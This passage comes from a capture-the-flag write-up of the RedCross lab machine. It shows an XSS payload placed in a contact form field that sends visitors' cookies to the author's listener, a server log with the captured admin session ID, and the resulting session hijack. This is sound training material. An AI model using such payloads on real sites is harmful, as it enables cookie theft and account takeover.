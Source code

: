 I did not attack the XSS on my original solve, but in chatting with the
machine author, he said this was the intended path to solve this part,
as the other two ways I will show were not supposed to work.

In the contact form, at `https://intra.redcross.htb/?page=contact`, if I
try to enter script tags into the subject or the body, I get an error:

![](/img/1554236901609.png)

That same check does not happen in the "Contact phone or email" text
box. I'll build a simple XSS payload:

`<script>new Image().src="http://10.10.14.14:8888/cookie.php?c="+document.cookie;</script>`

The script tries to create an image in the HTML with a source of my host
that includes the user's cookies. I'll start a python web server and
submit the tag:

![](/img/1554236998078.png)

In a few seconds, I get a hit on the webserver:



    root@kali# python3 -m http.server 8888
    Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
    10.10.10.113 - - [02/Apr/2019 16:29:42] code 404, message File not found
    10.10.10.113 - - [02/Apr/2019 16:29:42] "GET /cookie.php?c=PHPSESSID=pqap288bkav9od4ga69g0r3os2;%20LANG=EN_US;%20SINCE=1554236439;%20LIMIT=10;%20DOMAIN=admin HTTP/1.1" 404 -



Now I can take that `PHPSESSID` over to `admin.redcross.htb`, and use my
Firefox cookie editing plugin to set the cookie:

![](/img/1554237125748.png)

Now I refresh the page, and I'm logged in as admin:

![](/img/1554237187933.png)

### Path 2: Cookie From Login

#### Create Account

Instead of exploiting the form, I'll fill it out following the
instructions to create an account:

![](/img/1554219622783.png)

I have firefox set up to [not redirect without
permission](https://superuser.com/questions/874819/prevent-automatic-redirects-in-firefox).
On hitting submit, the first page that loads is a redirect, but the body
says:

![](/img/1554219664842.png)
